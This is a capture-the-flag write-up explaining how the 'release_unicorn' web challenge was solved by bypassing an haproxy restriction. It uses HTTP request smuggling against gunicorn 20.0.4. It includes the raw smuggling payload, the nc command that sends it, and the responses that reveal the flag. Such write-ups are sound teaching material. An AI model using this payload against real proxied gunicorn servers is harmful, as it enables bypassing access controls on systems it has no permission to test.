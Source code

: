The challenge source code was provided, including the Dockerfile. We could
look at the source code first and try to access the application and see how it
works. The page served when accessing the URL:

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/release_unicorn/images/home_page.png?raw=true)

Looking into the code, we can see that there more endpoints:

```python  
@app.route('/admin', methods=['GET', 'POST'])  
def admin():  
   return 'Under Construction...'

@app.route('/flag')  
def flag():  
   with open('flag', 'r') as f:  
       return f.read()  
```

If we try to access the */flag* endpoint, we get a **403 Forbidden**. The
challenge objective was to find a way to bypass the restriction mechanism
imposed in haproxy.  
The challenge title was a big clue to solve this challenge, and if we look
into the *requirements.txt* file, the gunicorn version is defined to *20.0.4*.

```python  
Flask  
flask_limiter  
gunicorn==20.0.4  
gunicorn[gevent]  
```

A quick Google search for vulnerabilities in this version, we will come across
this blog post, <https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-
smuggling/>. From here, we just need to adapt the payload to the challenge. A
possible solution would be:

```bash  
GET /admin HTTP/1.1  
Host: cybersecweek.ua.pt:2005  
Content-Length: 78  
Sec-Websocket-Key1: x

xxxxxxxxGET /flag HTTP/1.1  
Host: cybersecweek.ua.pt:2005  
Content-Length: 48

GET / HTTP/1.1  
Host: cybersecweek.ua.pt:2005

```

Then we need to send this request to the challenge:

```bash  
cat smuggle.txt | nc cybersecweek.ua.pt 2005  
# Results in  
HTTP/1.1 200 OK  
server: gunicorn/20.0.4  
date: Sun, 29 May 2022 20:14:33 GMT  
content-type: text/html; charset=utf-8  
content-length: 21

Under Construction...HTTP/1.1 200 OK  
server: gunicorn/20.0.4  
date: Sun, 29 May 2022 20:14:33 GMT  
content-type: text/html; charset=utf-8  
content-length: 45

CTFUA{Smuggl3_w1Th_gUn1c0rN_MTMzN1lvdVJvY2s=}  
```